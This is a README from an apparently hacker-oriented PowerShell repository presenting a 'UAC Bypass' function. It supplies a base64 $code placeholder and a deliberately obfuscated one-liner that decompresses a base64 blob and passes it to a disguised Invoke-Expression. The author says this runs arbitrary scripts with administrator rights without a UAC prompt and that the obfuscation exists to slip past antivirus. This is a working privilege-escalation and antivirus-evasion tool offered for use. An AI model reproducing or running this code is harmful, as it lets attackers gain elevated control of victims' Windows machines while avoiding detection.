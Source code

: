 ![Logo](https://github.com/I-Am-Jakoby/hak5-submissions/blob/main/Assets/logo-170-px.png?raw=true)

<!-- TABLE OF CONTENTS -->
<details>
  <summary>Table of Contents</summary>
  <ol>
    <li><a href="#Description">Description</a></li>
    <li><a href="#The-Function">The Function</a></li>
    <li><a href="#Contact">Contact</a></li>
    <li><a href="#Acknowledgments">Acknowledgments</a></li>
  </ol>
</details>

# UAC Bypass

## Description

This is a bonus function I am including with this repository. It will allow you to run any base64 encoded script from a standard Powershell console regardless
if Admin Privledges are required. It will open an Admin prompt and execute your code bypassing the UAC. In order to get this past the Anti Virus I have to heavily 
obfuscate it. So with that being said you really should not run code if you do not know what it does so user discretion is advised. 

## The Function

### [UAC-Bypass] 

This function has 2 parts. 

You have the ```$code``` variable you can store any base64 encoded script into. 

You can use my [Text to Base64](https://github.com/I-Am-Jakoby/PowerShell-for-Hackers/blob/main/Functions/B64.md) function to encode your own scripts.

```
$code = "TgBlAHcALQBJAHQAZQBtACAAQwA6AFwASQB0AC0AVwBvAHIAawBlAGQALgB0AHgAdAA="
```
Next you have a highly obfuscated block of code that will run any Base64 encoded script stored in the ```$code``` variable with Admin rights. 

Using the code above as an example running both of these in a Powershell console will create a file called ```It-Worked.txt``` in your C: directory just to show you it works.

```
(New-OBJEct SYsTEm.IO.StReamREADer( (New-OBJEct  iO.COmpREssioN.dEflAtEstrEam([SYStEm.Io.mEMoRYStREAm] [CoNVERT]::fROmBAse64STrING( 'hY6xCsIwFEV/5RG6ph0ci1MHBZEOQacsobmtQtKEvEj9fJuC4FT3e849VX89HUUMCxI/4FyNN0hiHqgaggWJNmEiYy2J86W7aRXGvJgE3TnDDNZ18JNWBdV9xKyH4L2ZraDGUrXKqRn/KTxLRs7PeWLdvdIdaaNFUYvCj8GuBxGp1LUqm5SlckAkyXTY9BYOGbuR4puyv/2t2ZAP'),[sySteM.iO.COmPREsSion.COMprEssIONmODe]::decOMpreSS ) ) , [tExt.eNcODINg]::ascIi)).rEAdToEND( )|& ( $SHELLId[1]+$ShELLid[13]+'X')
```

<p align="right">(<a href="#top">back to top</a>)</p>


<p align="right">(<a href="#top">back to top</a>)</p>

<!-- CONTACT -->
## Contact

I am Jakoby
  <p><br/>

  <img src="https://media.giphy.com/media/VgCDAzcKvsR6OM0uWg/giphy.gif" width="50"> 

  <a href="https://github.com/I-Am-Jakoby/">
    <img src="https://img.shields.io/badge/GitHub-I--Am--Jakoby-blue">
  </a>

  <a href="https://www.instagram.com/i_am_jakoby/">
    <img src="https://img.shields.io/badge/Instagram-i__am__jakoby-red">
  </a>

  <a href="https://twitter.com/I_Am_Jakoby/">
    <img src="https://img.shields.io/badge/Twitter-I__Am__Jakoby-blue">
  </a>

  <a href="https://www.youtube.com/c/IamJakoby/">
    <img src="https://img.shields.io/badge/YouTube-I_am_Jakoby-red">
  </a>

</p>



<p align="right">(<a href="#top">back to top</a>)</p>

<!-- ACKNOWLEDGMENTS -->
## Acknowledgments

* [Hak5](https://hak5.org/)
* [UberGuidoZ](https://github.com/UberGuidoZ)

***

[HOME-PAGE](https://github.com/I-Am-Jakoby/PowerShell-for-Hackers)

<p align="right">(<a href="#top">back to top</a>)</p>
